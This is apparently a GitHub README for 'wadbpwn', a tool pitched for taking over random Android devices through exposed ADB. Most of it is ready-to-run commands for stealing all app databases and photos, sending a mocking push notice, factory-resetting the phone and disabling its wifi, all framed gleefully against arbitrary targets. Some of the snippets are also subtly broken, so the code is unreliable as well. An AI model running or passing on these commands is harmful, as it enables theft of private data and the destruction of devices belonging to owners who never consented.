 # wadpwn

**It's true** - We can takeover a  device within seconds and get a proxy or steal anything or whatever!

Hack random android device with 100% guarantee to succeed within 1 second.

![wadpwn](https://user-images.githubusercontent.com/26827453/176798498-2e017de5-6bb4-4b8b-a5b1-e86ffd438276.gif)

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/wadbpwn
    cd wadbpwn
    chmod +x wadb*
    bash ./wadbpwn.sh
    
    - Wait ~1 second
    
    Target has been pwned!

    Enjoy ;-)

### Get Started On Windows 10

    Install any linux distro from microsoft store and run commands above..


## Tips & Tricks made by wuseman

### Steal all databases from the device ( require root )

    which su &> /dev/null
    if [[ $? -eq "0" ]]; then
       adb pull /data/data/ /some/path
    else
       printf "* No root detected, just try another target..\n"
       exit 1
    fi

### Steal all pictures: 
##### A simple example: 

    PICS="$(adb shell 'su -c find / \( -name '*.png' -name '*.jpg*' \)')"
    for pictures in $PICS; do
       adb pull -p $PICS /some/folder
     done
    printf "Done..is it your lucky day? ;-)\n"

### Let the owner know that you have hacked him, send a push notice:

    adb shell am broadcast -a com.google.android.c2dm.intent.RECEIVE -n <your.app.package>/com.google.android.gms.gcm.GcmReceiver --es "You h4v3 b33n h3cked mat3" "hrhr!"

### For be an d*ck and do a factory reset of the device: 

    adb shell am broadcast -a android.intent.action.MASTER_CLEAR
    adb shell reboot 

### For be device owners hero for a day you should shut down the targets wifi connection, but why? 

    adb shell svc wifi disable

### System requirements

- Android Debug Bridge (adb) - Find more info about _adb_ [here](https://developer.android.com/studio/command-line/adb)

## Changelog

[Versions changelog](CHANGELOG.md).

## Authors: 

* **wuseman <wuseman@nr1.nu\>** 

## License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE.md](LICENSE.md) file for details


### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

  wuseman cannot be held as responsible for users actions regardless of what damage a user can do. All users that  gathering information or data via wadbpwn is 100% responsible for their own actions, wadbpwn has been developed for a legal purpose.


